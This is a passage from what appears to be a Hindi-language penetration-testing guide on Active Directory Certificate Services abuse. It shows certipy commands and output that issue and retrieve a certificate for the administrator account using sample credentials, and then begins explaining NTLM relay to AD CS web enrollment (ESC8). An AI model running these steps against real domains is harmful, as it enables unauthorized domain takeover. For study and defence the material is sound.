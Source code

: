 हमारे **`Manage CA` और `Manage Certificates`** के साथ, हम फिर `ca` कमांड और `-issue-request <request ID>` पैरामीटर के साथ विफल प्रमाणपत्र अनुरोध जारी कर सकते हैं।
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
और अंत में, हम `req` कमांड और `-retrieve <request ID>` पैरामीटर के साथ **जारी प्रमाणपत्र प्राप्त** कर सकते हैं।
```bash
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 785
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Loaded private key from '785.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
## NTLM रिले एडी सीएस एचटीटीपी एंडपॉइंट्स - ESC8

### स्पष्टीकरण

{% hint style="info" %}
ऐसे वातावरणों में जहाँ **एडी सीएस स्थापित है**, यदि एक **वेब नामांकन एंडपॉइंट वंशाधिकारी** मौजूद है और कम से कम एक **प्रमाणपत्र टेम्पलेट प्रकाशित है** जो **डोमेन कंप्यूटर नामांकन और ग्राहक प्रमाणीकरण** की अनुमति देता है (जैसे कि डिफ़ॉल्ट **`मशीन`** टेम्पलेट), तो **किसी भी कंप्यूटर को हमलावर द्वारा क्षमता बनाना संभव हो जाता है जिसमें स्पूलर सेवा सक्रिय है**!
{% endhint %}

कई **एडी सीएस द्वारा समर्थित एचटीटीपी पर आधारित नामांकन विधियाँ** हैं, जिन्हें प्रशासक स्थापित कर सकते हैं। ये एचटीटीपी पर आधारित प्रमाणपत्र नामांकन के इंटरफेस **NTLM रिले हमलों** के लिए संवेदनशील हैं। एक हमलावर, **कंप्रमाइज़ किए गए मशीन से, किसी भी एडी खाता का अनुकरण कर सकता है जो इनबाउंड NTLM के माध्यम से प्रमाणीकृत होता है**। शिकार खाता का अनुकरण करते हुए, इन वेब इंटरफेस को हमलावर द्वारा एक ग्राहक प्रमाणीकरण प्रमाणपत्र का अनुरोध किया जा सकता है जो `उपयोगकर्ता` या `मशीन` प्रमाणपत्र टेम्पलेट का उपयोग करते हुए।

* **वेब नामांकन इंटरफेस** (एक पुराना एएसपी एप्लिकेशन जो `http://<caserver>/certsrv/` पर उपलब्ध है), डिफ़ॉल्ट रूप से केवल HTTP पर है, जो NTLM रिले हमलों के खिलाफ सुरक्षा नहीं प्रदान करता। इसके अतिरिक्त, यह अपने अधिकारण HTTP हेडर के माध्यम से केवल NTLM प्रमाणीकरण की अनुमति देता है, जिससे कि कर्बेरोस जैसे अधिक सुरक्षित प्रमाणीकरण विधियाँ लागू नहीं होतीं।
* **प्रमाणपत्र नामांकन सेवा** (सीईएस), **प्रमाणपत्र नामांकन नीति** (सीईपी) वेब सेवा, और **नेटवर्क उपकरण नामांकन सेवा** (एनडीईएस) डिफ़ॉल्ट रूप से अपने अधिकारण HTTP हेडर के माध्यम से नेगोटिएट प्रमाणीकरण का समर्थन करते हैं। नेगोटिएट प्रमाणीकरण **दोनों** कर्बेरोस और **NTLM** का समर्थन करता है, जिससे हमलावर NTLM प्रमाणीकरण में **डाउनग्रेड** कर सकता है। हालांकि ये वेब सेवाएँ डिफ़ॉल्ट रूप से HTTPS का समर्थन करती हैं, HTTPS केवल स्वयं NTLM रिले हमलों के खिलाफ सुरक्षित नहीं है। HTTPS सेवाओं के लिए NTLM रिले हमलों से सुरक्षा केवल तब संभव है जब HTTPS को चैनल बाइंडिंग के साथ संयुक्त किया जाता है। दुर्भाग्य से, एडी सीएस आईआईएस पर विस्तारित प्रमाणीकरण के लिए एक्टिवेट नहीं करता, जो चैनल बाइंडिंग के लिए आवश्यक है।
